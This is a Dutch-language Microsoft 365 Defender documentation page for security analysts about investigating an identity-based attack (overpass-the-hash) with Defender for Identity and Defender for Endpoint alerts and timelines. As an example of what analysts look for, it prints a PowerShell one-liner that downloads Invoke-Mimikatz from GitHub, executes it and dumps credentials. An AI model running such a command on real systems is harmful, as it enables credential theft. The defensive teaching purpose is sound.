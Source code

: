 ```yaml
---
title: Voorbeeld van een op identiteit gebaseerde aanval
description: Stap door een voorbeeldanalyse van een op identiteit gebaseerde aanval.
keywords: incidenten, waarschuwingen, onderzoeken, correlatie, aanval, machines, apparaten, gebruikers, identiteiten, identiteit, postvak, e-mail, 365, microsoft, m365, incidentrespons, cyberaanvallen
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: e56d6d5d78101da1f6da4c14ade25e80aa5b5063
ms.sourcegitcommit: 05f40904f8278f53643efa76a907968b5c662d9a
ms.translationtype: MT
ms.contentlocale: nl-NL
ms.lasthandoff: 04/30/2021
ms.locfileid: "52114680"
---
```

# <a name="example-of-an-identity-based-attack"></a>Voorbeeld van een op identiteit gebaseerde aanval

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Van toepassing op:**
- Microsoft 365 Defender

Microsoft Defender voor identiteit kan helpen bij het opsporen van kwaadaardige pogingen om identiteiten in uw organisatie te compromitteerden. Omdat Defender for Identity is geïntegreerd met Microsoft 365 Defender, kunnen beveiligingsanalisten inzicht hebben in bedreigingen die afkomstig zijn van Defender voor identiteit, zoals mogelijke pogingen tot het verhogen van netlogon-bevoegdheden.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>De aanval analyseren in Microsoft Defender voor identiteit

Microsoft 365 Met Defender kunnen analisten waarschuwingen filteren op detectiebron op **het tabblad Waarschuwingen** van de pagina incidenten. In het volgende voorbeeld wordt de detectiebron gefilterd op **Defender voor identiteit.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Voorbeeld van het filteren van de detectiebron voor Defender voor identiteit":::

Als u **de waarschuwing Verdachte overpass-the-hash-aanval** selecteert, gaat u naar een pagina in Microsoft Cloud App Security met meer gedetailleerde informatie. U kunt altijd meer informatie over een  waarschuwing [of](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) aanval vinden door Meer informatie over dit type waarschuwing te selecteren voor een beschrijving van de aanval en suggesties voor herstel.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Voorbeeld van een waarschuwing voor een vermoedelijke viaduct-the-hash-aanval"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Dezelfde aanval onderzoeken in Microsoft Defender voor Eindpunt

Een analist kan ook Defender voor Eindpunt gebruiken voor meer informatie over de activiteit op een eindpunt. Selecteer het incident in de wachtrij voor incidenten en selecteer vervolgens het **tabblad Waarschuwingen.** Hier kunnen ze ook de detectiebron identificeren. Een detectiebron met het label EDR staat voor Endpoint Detection and Response, wat Defender voor Eindpunt is. Hier selecteert de analist een waarschuwing die is gedetecteerd door EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Voorbeeld van een eindpuntdetectie en -antwoord in Defender voor eindpunt"::: 

Op de waarschuwingspagina worden diverse relevante informatie weergegeven, zoals de naam van het beïnvloede apparaat, de gebruikersnaam, de status van automatisch onderzoek en de waarschuwingsgegevens. Het waarschuwingsverhaal toont een visuele weergave van de processtructuur. De processtructuur is een hiërarchische weergave van bovenliggende en onderliggende processen die zijn gerelateerd aan de waarschuwing.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Voorbeeld van een waarschuwingsprocesstructuur in Defender voor Eindpunt"::: 

Elk proces kan worden uitgebreid om aanvullende details weer te geven. Details die een analist kan zien, zijn de werkelijke opdrachten die zijn ingevoerd als onderdeel van een schadelijk script, IP-adressen voor uitgaande verbindingen en andere nuttige informatie.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Voorbeeld van procesdetails in Defender voor Eindpunt":::
 
Door In **tijdlijn bekijken te** selecteren, kan een analist nog verder inzoomen om de exacte tijd van het compromis te bepalen. 

Microsoft Defender voor Eindpunt kan veel schadelijke bestanden en scripts detecteren. Vanwege veel legitieme toepassingen voor uitgaande verbindingen, PowerShell- en opdrachtregelactiviteit, wordt bepaalde activiteit echter beschouwd als goedaardig totdat er een schadelijk bestand of activiteit wordt gemaakt. Daarom helpt het gebruik van de tijdlijn analisten om de waarschuwing in context te plaatsen met de omringende activiteit om de oorspronkelijke bron of tijd van de aanval te bepalen die anders wordt verborgen door veelgebruikte bestandssysteem- en gebruikersactiviteit. 

Hiervoor begint een analist op het moment van de waarschuwingsdetectie (rood) en schuift u terug in de tijd om te bepalen wanneer de oorspronkelijke activiteit die heeft geleid tot de schadelijke activiteit daadwerkelijk is gestart. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Voorbeeld van beginnen op het moment van de detectie van waarschuwingen"::: 

Het is belangrijk om algemene activiteiten te begrijpen en te onderscheiden, zoals Windows Update-verbindingen, Windows Activeringsverkeer voor vertrouwde software, andere veelvoorkomende verbindingen met Microsoft-sites, internetactiviteiten van derden, Microsoft Endpoint Configuration Manager-activiteit en andere goedaardige activiteiten van verdachte activiteiten. U kunt dit onder andere doen door tijdlijnfilters te gebruiken. Er zijn veel filters die specifieke activiteiten kunnen markeren terwijl de analist alles uitfiltert dat de analist niet wil weergeven. 

In de onderstaande afbeelding heeft de analist gefilterd om alleen netwerk- en procesgebeurtenissen weer te geven. Hierdoor kan de analist de netwerkverbindingen en -processen zien rond de gebeurtenis waarbij Kladblok verbinding heeft gemaakt met een IP-adres, dat we ook in de processtructuur hebben gezien. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Voorbeeld van hoe Kladblok is gebruikt om een schadelijke uitgaande verbinding te maken"::: 

In dit specifieke geval is Kladblok gebruikt om een schadelijke uitgaande verbinding te maken. Vaak gebruiken aanvallers echter gewoon iexplorer.exe verbinding maken om een schadelijke payload te downloaden, omdat iexplorer.exe gewoonlijk als normale webbrowseractiviteit worden beschouwd.

Een ander item dat u in de tijdlijn moet zoeken, is PowerShell-toepassingen voor uitgaande verbindingen. De analist zou zoeken naar succesvolle PowerShell-verbindingen met opdrachten, zoals gevolgd door een uitgaande verbinding met een website die een schadelijk bestand `IEX (New-Object Net.Webclient)` host. 

In het volgende voorbeeld is PowerShell gebruikt om Mimikatz van een website te downloaden en uit te voeren:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Een analist kan snel naar trefwoorden zoeken door het trefwoord in de zoekbalk te typen om alleen gebeurtenissen weer te geven die zijn gemaakt met PowerShell. 

## <a name="next-step"></a>Volgende stap

Bekijk het [pad voor phishingonderzoek.](first-incident-path-phishing.md)

## <a name="see-also"></a>Zie ook

- [Overzicht van incidenten](incidents-overview.md)
- [Incidenten beheren](manage-incidents.md)
- [Incidenten analyseren](investigate-incidents.md)
